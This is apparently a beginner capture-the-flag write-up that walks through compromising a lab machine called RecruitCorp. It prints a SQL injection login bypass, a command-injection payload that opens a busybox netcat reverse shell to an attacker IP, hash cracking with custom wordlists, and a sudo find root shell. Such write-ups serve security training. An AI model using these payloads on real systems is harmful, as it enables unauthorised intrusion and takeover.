# Operation Promotion Write-up


Our senior lead Mara trusted us with a solo pentesting engagement against **RecruitCorp**. We want to prove that we are worthy of the (junior) Penetration Tester title.

Let's get promoted, shall we?

## Reconnaissance

Same procedure as always, a port scan with nmap. 

```bash
nmap -sV -sC Target
```

The `-sV` flag will provide the version of each running service, while the `-sC` flag will perform basic scripts, part of nmap's scripting engine (NSE). 



Take a look at the picture, you see that 4 ports are open: `22,80,139 and 445`. The scripts also found some interesting information on port 80 and 445. 445 is a port usually used by SMB, server message block protocol, a way to share files on the network. Judging by the script results, we might be able to read certain files on the share without valid credentials

1. List all available shares 
```bash
smbclient -N //TARGET_IP
```

2. We found `public` as a share, so connect to it
```bash
smbclient //TARGET_IP/public
```

There is a `README.txt` file. We can read it's content if we transfer it to our host with the `get` command



That's a dead end, but the other script for port 80 showed, that the application has a `/robots.txt`, disallowing one entry, that being `/admin`. The `robots.txt` file usually tells web crawlers, which sites they shouldn't crawl on. That being said, `robots.txt` usually contains paths that a normal user should normally not visit. 

But we are no normal users, let's visit that site


> `http://TARGET/admin`

The first thing you'd want to try when you see a login page is a SQL injection. It should be a habit - if you are authorized - to try passwords like `abc' OR 1=1;--`. You could even try basic passwords like `admin` or `password`. However, the vulnerability here is a SQL injection, so just use the following credentials

```txt
Username: admin
Password: a' OR 1=1;--
```



We can lookup users with IDs. If you have experience, you know that this could be an IDOR (Insecure direct object reference) vulnerability. However, with this endpoint, it's actually more like a feature instead of a vulnerability, since it is meant for admins only. There are 9 users in total, and User 7 contains an interesting note



It points to a new API endpoint, which we can use



## Exploitation

My first thought was it could be a SSRF (Server-Side Request Forgery) vulnerability. I tried entering `127.0.0.1`, since the endpoint looks like it would just perform the `ping` command. And it did. I also tried my attack box IP as a host, and it only did a ping command, so a SSRF can't be it

Luckily, we could also try command injection. It's not specifically an API vulnerability, but usually, whenever something on the page runs system commands, like `ping`, and we can specify the payload, we can test for command injection 

The PoC is: `;whoami`



It works! That means we can now establish a reverse shell. The machine will perform a command which will connect to a local listener running on a specified port on our attacker machine

## Initial access

Follow this walk through

1. Start a listener on your machine `nc -lvnp 4444`
2. Enter following payload on the API endpoint: `127.0.0.1;busybox nc ATTCKER_IP 4444 -e /bin/sh`

Then, you should see this on your listener



Checking the contents of the `/var/www/html` dictionary, we find a `config` dictionary with a file called `db.conf`. Config files usually contain secrets, like this one. It contains a bcrypt hash

```bash
$2b$10$QzkXmGndA2cQLoz03xAN6eWKrL6ZXyzhYTJNF67exOm
TmN5oVSEfq
```

I tried cracking it with hashcat, however it would take way too long, even when I tried to crack it with my own machine. 

There is a `/home/jford`, from which we also got the hash. We don't have access to it, so we need to escalate our privileges to jford. 

Sadly, the `www-data` account doesn't have that much privileges on the host, so we need to find another way. that being making my own wordlist

There is a crucial thing one might need to know about pentesting, that being that we can't always rely on pre-build wordlists. What if a user made his password about himself, like his full legal name just with special characters? You could figure it out through OSINT or data breaches, but a CTF doesn't expect that. Instead, we use a type of web crawler, called `cewl`, that will find keywords for brute force attacks. 

Use the following command:
```bash
cewl -d 2 -m 3 --with-numbers -w cewl_words.txt http://TARGET
```

You will find keywords found on that page in the `cewl_words.txt` file. A password however, wont be a simple string like that, the `rockyou.txt` wordlist would've contained it. I knew there were so what `rules` to generate passwords based of simple strings. I especially remembered `john` having such rules. I found a write-up which uses hashcat to build custom wordlists, that's exactly what we are doing right now
-> [Using Hashcat Rules to Create Custom Wordlists](https://infinitelogins.com/2020/11/16/using-hashcat-rules-to-create-custom-wordlists/)

Please read the post carefully, as I followed the steps mentioned there. Quickly summing up, I added the current year (as of writing this write-up being 2026) on every word in the `cewl_words.txt` file (In CTF challenges, always use the year when the room was created). Then, I used the `best64.rule` from hashcat to modify every entry in the wordlist. Following that, I made a custom rule to append exclamation marks (`!`) and used it to modify the entries again

The final wordlist was then used to crack the hash


> That took 13 minutes, as we are working with bcrypt hashes. I went on a quick walk, and when I came back the hash was cracked!

Honestly, looking at the password, I should've been able to figure it out on my if I just read the text on the homepage more carefully, as the password follows a pretty common pattern, instead of spending almost an hour trying to crack a hash. 

Well, let's just ssh into the machine as `jford` and get the first flag



## Privilege escalation

That was my quickest privesc ever! I got root access in a matter of seconds

One of the first things I always check, is what sudo permission the current user I am logged in as has. You can do that with `sudo -l`

Immediately, I noticed `jford` may run the `find` command as root, no password required

```txt
(root) NOPASSWD: /usr/bin/find
```

A tool that every pentester should know is [GTFOBins](https://gtfobins.org/). They describe themselves as 
_...a curated list of Unix-like executables that can be used to bypass local security restrictions in misconfigured systems_

Basically a collection of methods with which you can abuse legitimate Unix executables to bypass restrictions. If you look for the find executable there, you see a command with which you can spawn a shell. If we run it as sudo, we can spawn a shell as root, like the example shown below

```bash
sudo find . -exec /bin/sh \; -quit
```




## Conclusion

To sum up, we found a hidden `/admin` directory on the application, abused a SQL injection there. Furthermore, we exploited a vulnerable API endpoint, enabling us to perform remote code execution thanks to command injection. However, we had to build a custom wordlist, to breach a user we found on the system, in order to escalate to root. 

Since it's an easy, beginner friendly boot2root challenge, I wanted to be more detailed than in my previous boot2root write-ups. Thanks for reading to the end!
## References 
- https://infinitelogins.com/2020/11/16/using-hashcat-rules-to-create-custom-wordlists/